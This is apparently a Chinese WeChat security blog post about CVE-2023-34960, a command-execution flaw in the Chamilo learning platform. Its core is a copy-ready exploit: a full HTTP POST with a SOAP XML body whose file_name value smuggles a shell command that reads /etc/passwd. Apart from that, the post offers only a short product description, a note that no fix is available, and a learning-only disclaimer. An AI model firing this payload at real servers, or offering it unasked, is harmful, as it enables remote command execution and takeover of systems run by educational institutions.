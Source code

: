 #  (CVE-2023-34960)｜Chamilo 命令执行漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#复现 15 个

#命令执行 4 个

#漏洞 23 个

#漏洞复现 29 个

**漏洞说明**

Chamilo是一种开源学习管理系统(LMS),用于改善世界各地的教育和知识的获取。这是一个全球人才管理系统，专注于易用性，速度和在线培训计划。它使用PHP,jQuery和MariaDB,可以与Apache或Nginx一起安装在GNU
/ Linux,macOS和Windows上，也可以与IIS一起安装 。

Chamilo是一个免费的软件在线学习平台，根据GNU / GPLv3许可，面对面，半面对面或虚拟学习的管理旨在改善全球范围内获得教育和知识的机会。

                                                                  ——————————以上说明来自星火大模型

Chamilo存在命令执行漏洞，恶意攻击者可以通过构造的xml文件任意命令，进而控制服务器。

 **影响版本**

  * 

    
    
     Chamilo

漏洞复现  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230620103512.png)

paylaod：  

  *   *   *   *   *   *   *   *   *   * 

    
    
    POST /main/webservices/additional_webservices.php HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36Connection: closeContent-Length: 872Content-Type: text/xml; charset=utf-8Accept-Encoding: gzip, deflate  
    <?xml version="1.0" encoding="UTF-8"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="{http://ip:port}" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:ns2="http://xml.apache.org/xml-soap" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:wsConvertPpt><param0 xsi:type="ns2:Map"><item><key xsi:type="xsd:string">file_data</key><value xsi:type="xsd:string"></value></item><item><key xsi:type="xsd:string">file_name</key><value xsi:type="xsd:string">`{}`.pptx'|" |cat /etc/passwd||a #</value></item><item><key xsi:type="xsd:string">service_ppt2lp_size</key><value xsi:type="xsd:string">720x540</value></item></param0></ns1:wsConvertPpt></SOAP-ENV:Body></SOAP-ENV:Envelope>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230620103551.png)

 **修复建议**

暂无  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


